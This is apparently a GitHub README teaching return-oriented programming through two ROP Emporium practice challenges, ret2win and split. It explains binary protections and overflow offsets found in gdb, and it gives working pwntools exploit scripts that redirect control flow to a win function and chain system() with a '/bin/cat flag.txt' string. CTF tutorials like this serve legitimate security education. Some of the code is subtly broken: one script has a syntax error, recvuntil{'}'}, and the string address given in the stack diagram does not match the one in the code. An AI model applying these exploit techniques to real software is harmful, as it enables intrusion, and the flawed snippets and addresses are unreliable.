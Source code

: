 Short Intro to return oriented programming (ROP)
## What the hell is ROP?
return-oriented programming is a technique by which an attacker can induce arbitrary behavior in a program whose control flow he has diverted — without injecting any code. A return-oriented program chains together short instruction sequences already present in a program’s address space, each of which ends in a “return” instruction which can be used to bypass NX/DEP.<br />

A ROP exploit consists of multiple gadgets that are chained together. Each gadget performs some small computation, such as loading a value from memory into a register or adding two registers. In a ROP attack, the attacker finds gadgets within the original program text and causes them to be executed in sequence to perform a task other than what was intended.

## Get Started ret2win

let's start the demonstration by a beginner friendly and easy challenge from ROPemporium "ret2win" download it from [here](https://ropemporium.com/challenge/ret2win.html)
we'll be focusing on 64bit variant, but feel free to use any variant you like. <br />
Running file on the binary we can see it's no stripped
![img](imgs/file.png)
Checksec gives the following
![img](imgs/ch.png)
* NX(No Executable) typically applies to the stack: whether or not we can place shellcode on the stack and return to it.
* Stack Canary refers to the guard value placed right before the return address that is tested in the sanity check at the epilogue of a function against stack smashing.
* PIE (Position Independent Executable) refers to binaries compiled in position independent mode. In these cases even the binary image is randomly offset (not at the usual 0x08048000).
* RELRO refers to the writability of the GOT section

Let's run the binary and see what it does
![img2](imgs/ret.png)

let's fire up gdb (i'll be using gdb-gef you can install it from [here](https://github.com/hugsy/gef)) and check all functions

![img3](imgs/g.png)

there is a pwnme and ret2win function.. interesting let's disassemble pwnme

![img3](imgs/p.png)

Cool, so this function basically reads the user input using read() in a buffer of size 0x20 (32) but the problem is it reads 56 byte from the stdin so this a classic buffer overflow<br />
Let's try running the binary  with a really long string and see what happens
![img](imgs/seg.png)

Segmentation fault !
![img](imgs/ov.png)

Using metasploit pattern offset or just the built-in "pattern offset" command in gdb-gef we now know that it takes 40 bytes to overwrite the instruction pointer RIP

Next we are going to get the address of ret2win function which supposedly is the function that will give us the flag but it's uncalled in the main func
![img](imgs/re.png)

ret2win is at 0x400756

Now we have all the info we need let's start writing the mini-exploit.

```python
from pwn import *

r = process('./ret2win')

payload = 'A' * 40 #padding
payload += p64(0x400756) # the address of the function we want to execute
r.sendline(payload)
res = r.recvuntil{'}'} # receiving output until getting the } char which is the final char of the flag
print(res)
```

running the exploit give us the flag successfully
![img](imgs/ee.png)
## Challenge 2: Split
Checksec gives us the following:
![img](imgs/ch2.png)
running it:
```bash
split by ROP Emporium
32bits

Contriving a reason to ask user for data...
> test input

Exiting
```
info functions in gdb and we can see a function pwnme and usefulFunction
![img](imgs/fu.png)
We already know there will be a buffer overflow on pwnme function so let's just search for an offset
![img](imgs/b.png)
good now we know that it takes 44 bytes to overwrite the EIP. Now let's see the usefulFunction
![img](imgs/u.png)
There is call to system at 0x0804861a but without any arguments, let's note that address for later. <br />
Now according to the challenge description:
```
I'll let you in on a secret: that useful string "/bin/cat flag.txt" is still present in this binary, as is a call to system(). It's just a case of finding them and chaining them together to make the magic happen.
```
let's find that ```/bin/cat flag.txt``` string, i'll be using ropper in gdb for that
![img](imgs/p1.png)
Good now we have what we need to construct the exploit, it will be like this :<br />

```
|-------------------|
|      padding   	|  #A * 44
|-------------------|
|    system addr    |  #0x0804861a
|-------------------|
| usefulString addr |  #0x08049030
|-------------------|
```

which will get us something like this:

```python
from pwn import *

r = process('./split32')

payload = 'A' * 44
payload += p32(0x0804861a) #system addr
payload += p32(0x804a030) #usefulString addr
print (payload)
r.recvuntil('>')
r.sendline(payload)
print r.recvall()
```

running the exploit will successfully get us the flag
![img](imgs/da.png)
